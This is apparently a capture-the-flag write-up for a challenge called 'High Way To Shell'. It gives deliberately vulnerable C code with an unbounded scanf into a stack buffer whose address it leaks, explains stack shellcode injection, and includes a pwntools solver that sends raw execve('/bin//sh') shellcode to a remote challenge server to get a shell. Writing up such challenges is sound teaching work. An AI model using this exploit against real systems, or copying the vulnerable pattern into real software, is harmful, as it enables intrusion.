


# High Way To Shell


## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}

int main(){
    setup();
    char buf[50];
    printf("I'm going to be generous with you : %p",&buf);
    printf("\nDo Your magic:");
    scanf("%s", &buf);
    return 0;
}
```

## Overview
Before diving into the exploitation process let's check the security of the binary.<br>


We can see that ```NX``` is disabled. So we can inject a Shellcode into the stack when prompted for input. Then we hijack the code execution by overwriting the saved return pointer on the stack and modifie it to point to our shellcode and once the return pointer got popped into RIP. This causes the program to execute our instructions, giving us a shell for arbitrary command execution.

## Solver
```py
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF('./main')
#p = process(elf.path)
p = remote("20.216.40.184", 10008)

p.recvuntil(b"I'm going to be generous with you : ")
leak = int(p.recvline().strip(),16)
log.info(f"Buffer leak ==> {hex(leak)}")

pay = b"\x50\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
pay += b'a'*(72 - len(pay))
pay += p64(leak)


p.sendafter(b"Do Your magic:",pay)
p.interactive()
p.close()
```
